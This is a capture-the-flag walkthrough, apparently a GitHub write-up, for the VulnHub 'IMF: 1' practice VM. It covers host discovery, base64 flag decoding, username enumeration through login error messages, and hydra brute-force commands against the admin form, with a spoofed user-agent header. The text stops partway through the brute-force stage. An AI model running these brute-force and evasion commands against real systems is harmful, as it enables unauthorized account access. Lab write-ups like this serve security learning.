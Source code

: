 
## Overview

Local network - 172.16.1.0/24

VM - [IMF: 1](https://www.vulnhub.com/entry/imf-1,162/)




## Recon

VM description from site:

> Welcome to "IMF", my first Boot2Root virtual machine. IMF is a intelligence agency that you must hack to get all flags and ultimately root. The flags start off easy and get harder as you progress. Each flag contains a hint to the next flag. I hope you enjoy this VM and learn something.

VM's from vulnhub are usually have a web front-end, so I will be looking at that.

Find on my LAN

    netdiscover -r 172.16.1.0/24
    
MAC Vendor Camdus Computer Systems = VM Virtualbox

Found possible target - 172.16.1.76

    nmap -sS 172.16.1.76
    port 80 open

Use browser - load IMF Webpage. Click around.

As stated in the description IMF is a US Inteligence agency. The site lists three possible targets:

    Roger S. Michaels
    rmichaels@imf.local
    Director
  
    Alexander B. Keith
    akeith@imf.local
    Deputy Director
  
    Elizabeth R. Stone
    estone@imf.local
    Chief of Staff


## Enumeration

Quick scans from nmap and nikto yield nothing.

A possible vulnerability in web front-end is the contact form. The contact form does not display any errors after submission and Burpsuite shows nothing interesting. This could be a dead end.

In desperation - I decided to view page html source for any hints and got the first flag.

    <!-- flag1{YWxsdGhlZmlsZXM=} -->

Looks like base64, let's decrypt:

```bash
echo YWxsdGhlZmlsZXM= | base64 --decode
allthefiles
```

Back to the browser - http://172.16.1.76/allthefiles - 404. I've tried several extenions (html, txt, etc) with no luck. Back to the html I guess..

Suspicous js files in html head:

```html
<script src="js/ZmxhZzJ7YVcxbVl.js"></script>
<script src="js/XUnRhVzVwYzNS.js"></script>
<script src="js/eVlYUnZjZz09fQ==.min.js"></script>
```

`eVlYUnZjZz09fQ==.min.js` sticks out since it looks like base64 off the bat.

At first I thought the rest could be some backend js caching but let's just try all three:

```bash
echo ZmxhZzJ7YVcxbVl | base64 --decode
flag2{aW1mY

echo XUnRhVzVwYzNS | base64 --decode
base64: invalid input

echo eVlYUnZjZz09fQ== | base64 --decode
yYXRvcg==}
```

Looks looks like i have to concatenate the two successful decodes to get the flag:

    flag2{aW1mYyYXRvcg==}

and one more decode gives me this somewhat garbled text which resembles the CTF VM Name: 

    imfc&F 
    
So it seems like the input is close but not the exact string I need. After serveral attempts at combining strings, I ended up with this (which was the most obvious), `ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ==`

```bash
echo ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ== | base64 --decode
flag2{aW1mYWRtaW5pc3RyYXRvcg==}

echo aW1mYWRtaW5pc3RyYXRvcg== | base64 --decode
imfadministratorbase64
```

Okay, back to the browser with our findings:

- http://172.16.0.76/imfadministratorbase64 - 404
- http://172.16.0.76/imfadministrator - 200 OK

Awesome, found the admin login area.

I tried some dummy data for username and password. Two things I noticed about this form:

1. It looks like the form insecurely lets me know that the username I've tried is incorrect. 
2. Uses a phpsessid.

In burpsuite, the "failed login" page's response gives us a nice note from the develoer (also could probably be Roger S. Michaels - the director):
```html
Invalid username.
<form method="POST" action="">
<label>Username:</label><input type="text" name="user" value=""><br />
<label>Password:</label><input type="password" name="pass" value=""><br />
<input type="submit" value="Login">
<!-- I couldn't get the SQL working, so I hard-coded the password. It's still mad secure through. - Roger -->
</form>
```

At this point it looks like this is the form I'd have to exploit to get the rest of the flags.

## Exploitation

Based off of Enumeration I will probably have to do some the following things:

1. Brute force the username, probably using the names/ emails found on the public page
2. Brute force the password
3. Something with the PHPSESSID (I just don't know what yet)

### Users enumeration

In burpsuite, I tested the following usernames to see if if the "Invalid username" message does not appear:

    rmichaels@imf.local: Invalid username.
    akeith@imf.local: Invalid username.
    estone@imf.local: Invalid username.
    *** rmichaels: Invalid password. ***
    akeith: Invalid username.
    estone: Invalid username.
    
Got a hit on Roger S. Michaels's username. 

### Bruteforce

I'll try to brute force Roger's account using hydra and a list built into kali at `/usr/share/wordlists/*`. I'll start with the popular rockyou list. I was able to craft a http-form-post string in hydra thanks to Burpsuite and [this tutorial](http://insidetrust.blogspot.com/2011/08/using-hydra-to-dictionary-attack-web.html).

```bash
cd /usr/share/wordlists/
gunzip ./rockyou.txt.gz

hydra 172.16.1.76 http-form-post "/imfadministrator:user=^USER^&pass=^PASS^:Invalid password" -l rmichaels -P /usr/share/wordlists/rockyou.txt
```
The problem I have now is that I keep on getting different results when I run and a whole bunch of false positives. This could be brute force protection behind the server or the login attempts are coming in too fast for the server to respond with the correct "Invalid password" string.  After throttling the threads down to 1, I still get false positives. I'm guessing there's some type of protection against brute forcing. I need to see the http response when hydra is being ran. It looks like I should be able to use Hydra through a proxy, but I can find solid documenation on how to do that from the command line. So I'll just fire up Wireshark to follow the http streams. Here's the conversation:

```
GET /imfadministrator HTTP/1.0
Cookie: PHPSESSID=8qicfn6g1dneig1p7ro06i10g4
Host: 192.168.100.76
User-Agent: Mozilla/5.0 (Hydra)

HTTP/1.1 301 Moved Permanently
Date: Wed, 09 Nov 2016 00:31:35 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: http://192.168.100.76/imfadministrator/
Content-Length: 327
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://192.168.100.76/imfadministrator/">here</a>.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 192.168.100.76 Port 80</address>
</body></html>

```

So it looks like I'm being given a 301 error when logging in through hydra. Possibly being blocked due to Hydras user-agent.
```
hydra -l rmichaels -P /usr/share/wordlists/rockyou.txt 192.168.100.76 http-form-post "/imfadministrator:user^USER^&pass=^PASS^:Invalid:H=Cookie: PHPSESSID=8qicfn6g1dneig1p7ro06i10g4; User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 9_2_1 like Mac OS X) AppleWebKit/601.1.46 (KHTML, like Gecko) Version/9.0 Mobile/13D15 Safari/601.1" -t 1
```
